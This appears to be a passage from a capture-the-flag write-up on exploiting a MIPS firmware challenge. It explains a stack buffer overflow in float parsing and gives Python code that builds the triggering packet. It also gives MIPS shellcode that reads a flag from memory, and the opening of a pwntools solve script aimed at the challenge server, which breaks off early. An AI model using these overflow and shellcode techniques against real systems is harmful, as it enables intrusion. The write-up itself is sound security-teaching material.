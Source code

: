 The vulnerability is a buffer overflow when reading a single float word. This overflow allows us to overflow the stack and control the return address and gain IP control. The code to trigger this bug is shown below:

```python
def construct_packet(payload):
    assert len(payload) == 61
    tot = 0
    for i in payload:
        tot += ord(i)
    tot = tot & 0xff
    packet = "\xA5" + "Z" + payload + chr(0xff - tot) + "\xA5"
    return packet

def construct_payload(op, idx, data):
    data += "Z"*(59-len(data))
    return construct_packet(chr((op << 4) | idx) + "\x00" + data)
p = construct_payload(5, 8, p32(shellcode_loc)*2)
r.sendline(p)
```

Using IP control, we can jump to data in RAM, and execute it as shellcode. The code allows us to read in 14 consecutive floats stored at `shellcode_loc = 0xA0180590`. However, these floats must not be negative values, therefore our shellcode has to adhere to this constraint. Luckily, padding the shellcode with nop instructions "\x00\x00\x00\x00" allows us to avoid negative floats effectively.

What we want our shellcode to do is utilize the unknown IO interface used to output float computation results to print out the flag for us. The flag is mapped at 0xa2008000. The shellcode to do this is shown below:

```
ori $a0, $zero, 0
ori $a2, $zero, 1
ori $a3, $zero, 0xa300
sll $a3, $a3, 0x10
ori $t0, $zero, 0x20
or $a3, $a3, $t0
lw $a1, ($a3)
beq $a1, $a2, 8
ori $at, $zero, 0xa200
sll $at, $at, 0x10
ori $v0, $zero, 0x8000
add $v0, $v0, $a0
or $at, $at, $v0
lw $v1, ($at)
sw $v1, 4($a3)
sw $v1, 8($a3)
sw $zero, ($a3)
addi $a0, $a0, 4
b 8
```

Finally, putting everything together, we have the following solve script:

```python
from pwn import *
import struct
import time

# r = process("./vmips_patched -o fpu -o memsize=3000000 firmware.rom".split())
r = remote("elite-poet.satellitesabove.me", 5012)
r.recvuntil("Ticket please:")
r.sendline("ticket{uniform379194sierra2:GHiF6t8NmcWsYHqka1scMQCMHTuyi8RGOl72nPY-n6P0AVyyukuW1UnRO6SfWhwweg}")

time.sleep(1)

```